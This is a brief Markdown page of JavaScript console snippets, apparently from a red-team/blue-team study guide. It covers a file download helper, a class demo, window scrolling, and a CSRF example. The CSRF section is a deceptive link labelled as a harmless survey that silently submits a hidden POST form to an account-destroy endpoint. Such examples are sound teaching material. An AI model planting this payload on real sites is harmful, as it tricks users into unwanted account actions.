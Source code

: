 
# CODE EXAMPLES
1. [DOWNLOAD FILE](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#download-file-webconsole)
2. [CREATE CLASS](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#create-class-webconsole)
3. [CONTROL WINDOW SIDEBAR](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#control-window-sidebar-webconsole)
4. [CSRF](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Javascript.md#csrf)

<br />

## Download File (WebConsole)
```
function downloadURI(uri, name) 
{
    var link = document.createElement("a");
    // If you don't know the name or want to use
    // the webserver default set name = ''
    link.setAttribute('download', name);
    link.href = uri;
    document.body.appendChild(link);
    link.click();
    link.remove();
}
downloadURI("https://example.com/file.png", "captcha1")
```

## Create Class (WebConsole)
```
class Animals {
  constructor(name, age) {
    this.name = name;
    this.specie = age;
  }
  
  sing(){
    return `${this.name} can sing.`;
  }
  
  dance(){
    return `${this.name} can dance.`;
  }
}  

let bingo = new Animals("bingo", "10");
console.log(bingo);
console.log(bingo.sing());
```

## Control Window Sidebar (WebConsole)
- Open WebDev Tool
- `window.scrollby(x, y);`


## CSRF
```
<a href="http://www.harmless.com/" onclick="
  var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://www.example.com/account/destroy';
  f.submit();
  return false;">To the harmless survey</a>
```

